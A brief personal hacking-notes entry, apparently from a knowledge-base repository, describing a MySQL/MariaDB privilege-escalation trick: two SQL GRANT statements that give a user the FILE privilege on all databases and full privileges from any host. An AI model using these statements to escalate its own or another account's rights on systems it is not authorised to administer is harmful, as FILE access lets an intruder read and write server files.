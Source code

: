 # mysql mariadb exploit GRANT OPTION to grant file write permissions to self
must have `GRANT OPTION` permission
```SQL
GRANT FILE ON *.* TO 'uname'@'localhost' with grant option;
grant all privileges on dbname.* to 'yourusername'@'%' with grant option;
```

# Related
- [20221003151236](/zet/20221003151236/README.md) mysql mariadb
- ~/kb/hacking/tricks/mysql-tricks.md

Tags:
    #assorted #hacking #trick #mysql
